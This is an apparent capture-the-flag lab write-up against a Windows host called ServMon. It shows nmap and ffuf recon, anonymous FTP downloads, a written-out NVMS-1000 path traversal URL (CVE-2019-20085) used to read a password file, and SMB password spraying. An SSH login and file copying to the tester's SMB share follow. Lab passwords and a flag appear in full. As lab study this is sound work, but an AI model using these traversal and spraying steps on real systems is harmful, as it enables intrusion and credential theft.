## Testing

Start: 2026-10-28, 16:50

IP: 
```IP
10.129.227.77
```
---
ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.227.77 -oA network/nmap_ports
```



FTP, SSH, HTTP, RPC, SMB

5666 NRPE - Remote monitoring (https://www.pentestpad.com/port-exploit/port-5666-nagios-nrpe-nagios-remote-plugin-executor)

6063 X11 - GUI for remote management (https://portlookup.com/port-6000-6063/)
6699 Napster - Napster file-sharing protocol

service

```
nmap -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 -Pn -n -vv --min-rate=5000 -sCV 10.129.227.77 -oA network/nmap_service
```



Anonymous FTP login allowed

SSH: OpenSSH for Windows 8.0



Port 8443 HTTPS - NSClient++

Results:
- 21              FTP -> Anonymous FTP login allowed
- 22              SSH - OpenSSH for Windows 8.0
- 80              HTTP
- 135           RPC
- 139, 445  SMB
- 5666         NRPE - Remote monitoring
- 6063         X11 - GUI for remote management 
- 6699         Napster - Napster file-sharing protocol (?)


21 FTP

```
ftp 10.129.227.77
```



Potential Users:
- Nadine
- Nathan

Change directory to Nadine

`Confidential.txt`, download to system

```
get Confidential.txt
```



Change directory to Nathan

`Notes to do.txt`, download to system

```
get Notes\ to\ do.txt
```




Read files

```
cat Notes\ to\ do.txt
```



Searching NSClient (also present as HTTP 80 web tittle)

https://nsclient.org/ - "A simple, powerful, and secure monitoring agent for **Windows** and **Linux**."

`SharePoint`could be a SMB share or other shared directory where secrets are stored.

```
cat Confidential.txt
```

Note from Nadine to Nathan:
`I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.`

`Passwords.txt` file is in Nathan desktop.


80 HTTP

Browsing: http://10.129.227.77



"NVMS-1000" Login page at `/Pages/login.htm`

Fuzzing

```
ffuf -u http://10.129.227.77/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -fs 118
```

Nothing

```
ffuf -u http://10.129.227.77/Pages/FUZZ.htm -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -fs 118
```



`main` is the dashboard but redirected to `login` as unauthenticated


Searching for "NVMS-1000 CVE"

https://packetinside.github.io/cves/cve-2019-20085/

CVE-2019-20085. Local file inclusion with path traversal (12 dirs to root /)

```
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fwin.ini
```

```
http://10.129.227.77/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fwin.ini
```



Works

With this file inclusion can include the `Passwords.txt` file mentioned by Nadis in its `Notes to do.txt` exposed via FTP, living inside `Nathan`'s desktop

`/Users/Nathan/Desktop/Passwords.txt`

```
http://10.129.227.77/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers/Nathan/Desktop/Passwords.txt
```



Passwords:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Saved to `passwords.txt` file in local system

Although this passwords seem to belong to `Nathan`, will also probe against `Nadine` and `administrator`, creating a file `users.txt` including these.

Password spray against multiple users:

```
nxc smb 10.129.227.77 -u users.txt -p passwords.txt --continue-on-success
```



- OS: Windows 10 / Server 2019 Build 17763 x64
- Hostname: `SERVMON`
- Domain: `ServMon`
- SMB message signing disabled
- Password valid for `nadine`

Valid credential:
```
nadine
```
```
L1k3B1gBut7s@W0rk
```

Add Hostname to `/etc/hosts`




Enumerating shares

```
nxc smb servmon -u nadine -p L1k3B1gBut7s@W0rk --shares
```



Read to `IPC$`

Connecting via SSH

```
ssh nadine@servmon
```
Input password: `L1k3B1gBut7s@W0rk`



Connected as `nadine` to target system `SERVMON` with IP: 10.129.227.77

```
type C:\Users\Nadine\Desktop\user.txt
```

user.txt: `fffb3f6b7005b2dfacd3199ddbb7930d`


Navigating `C` find .db3 files, apparently SQLite database files inside `C:\RecData`



Transfer the files using SMB server

```
impacket-smbserver -smb2support "share" ./
```

```
copy .\RecordInfoDB.db3* \\10.10.14.204\share
```

`You can't access this shared folder because your organization's security policies block unauthenticated guest access.`

Copy them to shared FTP dir

```
copy .\RecordInfoDB.db3* C:\Shared\
```

```
ftp 10.129.227.77
```



Transfered

Querying it with `sqlite3`: `Error: database disk image is malformed`

Navigating system, access denied to `C:\inetpub\logs\LogFiles\FTPSVC1309058972\`

Listing `C:\Program Files\NSClient++`, type `nsclient.ini`

```
type nsclient.ini 
```


`ew2x6SsGTxjRwXOT`

End: 2026-10-28, 18:50

---
### Post-testing
##### Time frame
Start: 2026-10-28, 16:50
End: 2026-10-28, 18:50

Total time: 2h
##### Techniques
- LFI with path traversal CVE-2019-20085
##### Sources:
CVE-2019-20085: https://packetinside.github.io/cves/cve-2019-20085/
